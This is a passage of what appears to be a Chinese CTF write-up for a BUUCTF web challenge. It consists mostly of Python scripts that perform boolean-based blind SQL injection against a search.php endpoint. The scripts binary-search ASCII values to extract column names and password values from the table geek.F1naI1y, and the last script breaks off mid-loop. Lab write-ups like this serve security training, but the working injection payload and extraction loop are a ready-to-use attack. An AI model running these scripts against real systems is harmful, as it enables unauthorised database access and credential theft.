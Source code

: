 ```py
    if high <= 32:
        break

```

得到表：F1naI1y,Flaaaaag 

```py
import requests
url = 'http://85ef4fe3-7793-44d7-a564-737280a43420.node5.buuoj.cn:81/search.php'
res = ""
sign = 0
# ?id=0^(ASCII(SUBSTR((SELECT(DATABASE())),1,1))>1)--+
for i in range(1, 100):
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"?id=0^(ASCII(SUBSTR((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),{i},1))>{middle})--+"
        # print(payload)
        r = requests.get(url + payload)
        if 'others' in r.text: # 注意改这里
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
    if high <= 32:
        break
```

![image-20250916202302641](assets/image-20250916202302641.png)

```py
import requests
url = 'http://36cb2489-ce57-4db4-a3cc-32c64a13f82f.node5.buuoj.cn:81/search.php'
res = ""
sign = 0
# ?id=0^(ASCII(SUBSTR((SELECT(DATABASE())),1,1))>1)--+
for i in range(101, 250): # flag靠后
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"?id=0^(ASCII(SUBSTR((select(group_concat(password))from(geek.F1naI1y)),{i},1))>{middle})--+"
        # print(payload)
        r = requests.get(url + payload)
        if 'others' in r.text: # 注意改这里
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
    if high <= 32:
```
